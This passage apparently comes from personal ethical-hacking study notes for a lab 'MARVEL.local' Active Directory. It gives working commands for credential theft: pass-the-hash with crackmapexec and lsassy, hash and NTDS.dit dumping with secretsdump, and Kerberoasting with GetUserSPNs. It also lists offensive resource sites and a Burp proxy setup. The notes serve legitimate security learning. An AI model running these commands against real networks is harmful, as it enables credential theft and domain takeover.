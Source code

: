 example:
`crackmapexec smb 172.16.214.0/24 -u administrator -H hash --local-auth -M lsassy`

#### secretsdump
tools for looking for hash for accounts
`secretsdump.py MARVEL.local/fcastle:'Password1'@172.16.214.130`

dumping the NTDS.dit:   (that contains all the hashes)
`secretsdump.py MARVEL.local/hawkeye:'Password1@'@172.16.214.128 -just-dc-ntlm`
`172.16.214.128` -->  Domain Controller IP
you must have access an admin account

####  GetUserSPNs
Can be used to obtain a password hash for user accounts that have an SPN (service principal name)
Look [[Notes_ETH#Kerberoasting|here]] to deply understand 
(Domain Controller must be on)
`sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 172.16.214.120 -request`
`-dc-ip` --> Domain Controller IP

-----
## Sites
### GTFOBins 
curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems
[GTFOBins](https://gtfobins.github.io/)

### Payload All The Things
A list of useful payloads and bypasses for Web Application Security
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)
example of use here -->  [[Notes_ETH#Popup a shell|Popup a shell]]
### Webhook.site
it gives you an unique website URL -->  that you can make calls to
[Webhook](https.//webhook.site)

### AppSecExplained
up-to-date handbook for Web Application Hacking
[AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/)

----
## Browser Extensions
#### FoxyProxy 
Useful for settings Browser for using BurpSuite

add the firefox [extension](https://addons.mozilla.org/nl/firefox/addon/foxyproxy-basic/)
Go to the Settings > Add Proxy
Set the proxy in this way:
![[Pasted image 20240215140635.png]]
